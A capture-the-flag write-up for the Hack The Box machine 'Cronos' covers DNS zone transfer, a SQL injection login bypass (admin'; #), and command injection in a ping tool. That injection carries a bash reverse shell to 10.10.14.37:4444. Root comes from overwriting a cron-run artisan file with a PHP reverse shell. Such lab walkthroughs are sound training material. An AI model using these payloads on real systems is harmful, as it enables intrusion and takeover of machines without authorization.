# Cronos

### Machine Info


#### Nmap


#### DNS
Zone transfer:


Add `admin.cronos.htb, ns1.cronos.htb, cronos.htb` into `/etc/hosts`.

#### HTTP (Port 80)

`10.10.10.13` Index Page:

Tried `gobster` but got nothing interesting.


##### cronos.htb

Index Page:


###### Gobuster:



##### admin.cronos.htb
Index Page:


I tried to login with common admin credential but nothing worked.

###### Gobuster
I tried to access pages but every url just redirected me to login page.



###### SQL Injection

From the login page, I tried `SQL Injection` with UserName=admin'; # and I could bypass the authentication:




From the page, there was a tool for `ping` and I tested:





After I checked it's working I checked source code:


It looks like it can just execute ping command without checking input data.

##### Exploit

`whoami` command execution:


As I expected I can check the result of `whoami` command and we are user `www-data`.


Reverse shell command execution:
```
10.10.14.37; bash -c 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'
```

`nc` listener:



#### Privilege Escalation

First I just run simple linux enumeration script `lse.sh` and found one cronjob that I can use to exploit:


I checked the permission of file `artisan` and user `www-data` can remove and write new file in that directory:


##### Exploit

Replace `/var/www/laravel/artisan` to malicious php-reverse-shell script:
```
# Change port and ip after copy
❯ cp /usr/share/webshells/php/php-reverse-shell.php ./   
❯ mv php-reverse-shell.php artisan
```
From victim machine download and just wait a minute.

`nc` listener on attacking side:


And you can get `root.txt` :)
